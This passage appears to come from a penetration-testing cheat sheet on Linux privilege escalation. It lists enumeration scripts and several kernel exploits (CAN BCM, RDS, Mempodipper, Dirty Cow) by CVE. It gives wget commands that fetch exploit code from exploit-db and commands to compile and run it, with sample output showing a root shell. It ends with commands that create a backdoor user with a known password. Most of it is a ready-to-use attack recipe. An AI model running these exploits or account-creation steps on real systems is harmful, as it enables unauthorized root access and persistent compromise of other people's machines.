       [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)
      
      - linux-exploit-suggester (Recently Updated)
      
      [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
      
      -   Highon.coffee Linux Local Enum - Great enumeration script!
      
          `wget https://highon.coffee/downloads/linux-local-enum.sh`

      -   Linux Privilege Exploit Suggester  (Old has not been updated in years)
      
    [https://github.com/PenturaLabs/Linux\_Exploit\_Suggester](https://github.com/PenturaLabs/Linux_Exploit_Suggester)

      -   Linux post exploitation enumeration and exploit checking tools  
      
    [https://github.com/reider-roque/linpostexp](https://github.com/reider-roque/linpostexp)
    

Handy Kernel Exploits

-   CVE-2010-2959 - 'CAN BCM' Privilege Escalation - Linux Kernel < 2.6.36-rc1 (Ubuntu 10.04 / 2.6.32)

    [https://www.exploit-db.com/exploits/14814/](https://www.exploit-db.com/exploits/14814/)
    
         wget -O i-can-haz-modharden.c http://www.exploit-db.com/download/14814
         $ gcc i-can-haz-modharden.c -o i-can-haz-modharden
         $ ./i-can-haz-modharden
         [+] launching root shell!
         # id
         uid=0(root) gid=0(root)

-   CVE-2010-3904 - Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8  
    [https://www.exploit-db.com/exploits/15285/](https://www.exploit-db.com/exploits/15285/)

-   CVE-2012-0056 - Mempodipper - Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)  
    [https://git.zx2c4.com/CVE-2012-0056/about/](https://git.zx2c4.com/CVE-2012-0056/about/)  
    Linux CVE 2012-0056  
    
          wget -O exploit.c http://www.exploit-db.com/download/18411 
          gcc -o mempodipper exploit.c  
          ./mempodipper

-   CVE-2016-5195 - Dirty Cow - Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8  
    [https://dirtycow.ninja/](https://dirtycow.ninja/)  
    First existed on 2.6.22 (released in 2007) and was fixed on Oct 18, 2016  

-   Run a command as a user other than root  

          sudo -u haxzor /usr/bin/vim /etc/apache2/sites-available/000-default.conf

-   Add a user or change a password

          /usr/sbin/useradd -p 'openssl passwd -1 thePassword' haxzor  
          echo thePassword | passwd haxzor --stdin
